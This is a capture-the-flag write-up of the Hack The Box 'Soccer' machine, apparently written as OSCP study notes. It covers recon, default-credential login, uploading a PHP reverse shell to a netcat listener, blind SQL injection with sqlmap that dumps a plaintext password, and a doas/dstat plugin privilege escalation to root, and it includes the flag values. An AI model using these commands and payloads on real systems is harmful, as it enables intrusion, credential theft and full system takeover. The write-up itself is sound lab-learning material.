**Start 17:24 13-08-2024**

---
```
10.10.11.194
```
## Recon

### Nmap

Quick scan:
```bash
┌──(kali㉿kali)-[~]
└─$ nmap 10.10.11.194                    
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-13 16:28 IST
Nmap scan report for 10.10.11.194
Host is up (0.016s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9091/tcp open  xmltec-xmlmail

Nmap done: 1 IP address (1 host up) scanned in 0.35 seconds

```

Thorough scan:
```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -sT -p- -T5 10.10.11.194
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-13 16:29 IST
Nmap scan report for 10.10.11.194
Host is up (0.047s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ad:0d:84:a3:fd:cc:98:a4:78:fe:f9:49:15:da:e1:6d (RSA)
|   256 df:d6:a3:9f:68:26:9d:fc:7c:6a:0c:29:e9:61:f0:0c (ECDSA)
|_  256 57:97:56:5d:ef:79:3c:2f:cb:db:35:ff:f1:7c:61:5c (ED25519)
80/tcp   open  http            nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soccer.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
9091/tcp open  xmltec-xmlmail?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, SSLSessionReq, drda, informix: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   GetRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 139
|     Date: Tue, 13 Aug 2024 15:29:51 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot GET /</pre>
|     </body>
|     </html>
|   HTTPOptions, RTSPRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 143
|     Date: Tue, 13 Aug 2024 15:29:51 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot OPTIONS /</pre>
|     </body>
|_    </html>
</SNIP >

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.71 seconds

```

>Task 1: What version of nginx is running on Soccer?
>A: 1.18.0


### 80/TCP - HTTP

After adding `soccer.htb` to our `/etc/hosts` file we are greeted with the following page:


It's just a one pager, so we'll do a directory enumeration to check whether there are some hidden directories.

#### dirsearch
This one did not return anything useful

```bash
┌──(kali㉿kali)-[~]
└─$ dirsearch -u http://soccer.htb/ -x 403,404,400
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/reports/http_soccer.htb/__24-08-13_16-41-06.txt

Target: http://soccer.htb/

[16:41:06] Starting: 
                                                                             
Task Completed

```

#### gobuster
Luckily enough for us this one did return something useful:

```bash
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://soccer.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://soccer.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/tiny                 (Status: 301) [Size: 178] [--> http://soccer.htb/tiny/]
```

>Task 2: What directory is hosting a file manager but not linked to anywhere on the site?
>A: `/tiny`

After heading to the endpoint we are greeted with the following page:



We can look up some default creds and try to login with them. After searching it up on Google we find it right away:


We try the `Admin` user:



Voila, just like that. We notice right away that the version is `2.4.3` as well.

>Task 3: Find creds for the application and log in. What version of Tiny File Manager is running on Soccer?
>A: 2.4.3

Heading into the `tiny` folder we see this:



Seeing as there's an upload folder this could mean that we can upload a `php-reverse-shell` here.

We start a `netcat listener`

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ nc -lvnp 1234                        
listening on [any] 1234 ...
```

And we upload the `reverse-shell`



After this we go click on the file and click on `open`. If it is done correctly the listener should display the following:

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ nc -lvnp 1234                        
listening on [any] 1234 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.11.194] 42484
Linux soccer 5.4.0-135-generic #152-Ubuntu SMP Wed Nov 23 20:19:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 16:03:44 up  5:19,  0 users,  load average: 0.03, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

To stabilize the shell we input 

```bash
script /dev/null -c bash
```

Heading into the `/home` directory we see that there's a user called `player`

```bash
www-data@soccer:~$ cd /
cd /
www-data@soccer:/$ cd home
cd home
www-data@soccer:/home$ ls -l
ls -l
total 4
drwxr-xr-x 3 player player 4096 Nov 28  2022 player
```

Further enumeration of the `www-data` user yields no interesting results.
We do however know that the server is running on `nginx`, thus we can take a look at that directory within the `/etc` directory. 

After diving deeper in this directory we find the following file:

```js
// soc-player.htb

server {
        listen 80;
        listen [::]:80;

        server_name soc-player.soccer.htb;

        root /root/app/views;

        location / {
                proxy_pass http://localhost:3000;
                proxy_http_version 1.1;
                proxy_set_header Upgrade $http_upgrade;
                proxy_set_header Connection 'upgrade';
                proxy_set_header Host $host;
                proxy_cache_bypass $http_upgrade;
        }

}
```

We see a mention of another server name, which is a subdomain of the one we're using. Let's add it to our `/etc/hosts` file.

Now when we visit the site we see a different page:



We try to login using various creds but to no avail, so we register and login as a new user.



Apparently this `ticket id` is important:

```
63374
```

Inputting this ticket tells us it `exists` which means that it may be checking it somehow?



## SQLI
Indeed it does, it seems it's a script checking `WebSockets` on port `9091`. 
Convenient for us we found that port during our `nmap` scan where it told us it was running `xmltec-xmlmail`. We can test this whether a `SQL-Injection` might be possible.
Since we're dealing with a `Blind SQLI` here, meaning we cannot see the output, we have to use the following command:

```bash
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --dbs --threads 10 --level 5 --risk 3 --batch
```

The most important output is this:



We found out that it uses a `MySQL database` and we've found the `databases` that are used. 
`soccer_db` is the one most interesting to us.

We can now go ahead and target `soccer_db` and dump all it's contents using the following command:

```bash
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --threads 10 -D soccer_db --dump --batch
```



Just like that we've gained info about the `player` user. We can now use it to `SSH` into the machine.

```
player
PlayerOftheMatch2022
```

### user.txt
After logging in we get this flag right away

```bash
player@soccer:~$ ls -l
total 4
-rw-r----- 1 root player 33 Aug 13 10:45 user.txt
player@soccer:~$ cat user.txt 
0ba5e61babaab18ea12a884a32043dfe
player@soccer:~$ 
```

## Privilege Escalation
We try `sudo -l` to no avail
```bash
player@soccer:~$ sudo -l
[sudo] password for player: 
Sorry, user player may not run sudo on localhost.
```

Fortunately for us this one returns us better results:
```bash
find / -perm -u=s -type f 2>/dev/null
/usr/local/bin/doas # This one seems interesting
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/bin/umount
/usr/bin/fusermount
/usr/bin/mount
/usr/bin/su
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/at
/snap/snapd/17883/usr/lib/snapd/snap-confine
/snap/core20/1695/usr/bin/chfn
/snap/core20/1695/usr/bin/chsh
/snap/core20/1695/usr/bin/gpasswd
/snap/core20/1695/usr/bin/mount
/snap/core20/1695/usr/bin/newgrp
/snap/core20/1695/usr/bin/passwd
/snap/core20/1695/usr/bin/su
/snap/core20/1695/usr/bin/sudo
/snap/core20/1695/usr/bin/umount
/snap/core20/1695/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1695/usr/lib/openssh/ssh-keysign
```

`doas` is a binary which is similar to `sudo` and has the `SetUID bit set` set in our case. This command should allow us to run commands as another user.

Looking up `doas` on Google we find out that it's config file usually lies within the `/etc` directory:





Correct.

```bash
player@soccer:/usr/local/etc$ cat doas.conf 
permit nopass player as root cmd /usr/bin/dstat
```

Apparently we can run `dstat` without needing `sudo` privileges. 

```bash
echo 'import os; os.system("/bin/bash")' > /usr/local/share/dstat/dstat_pwn.py
```

Afterwards we can run the following to verify

```bash
doas /usr/bin/dstat --list
```



Now we need to run

```bash
doas /usr/bin/dstat --pwn
```

And we should be all set:

```bash
player@soccer:/usr/local/share/dstat$ doas /usr/bin/dstat --pwn
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
root@soccer:/usr/local/share/dstat# 
```

### root.txt

Now that we've escalated our privileges we can go ahead and get the `root` flag.

```bash
root@soccer:/usr/local/share/dstat# cd /root && cat root.txt
7ede078aeb70ef7b253747f50f3bb2d2
```


---

**Finished 19:34 13-08-2024**

[^Links]: [[Hack The Box]] [[OSCP Prep]]
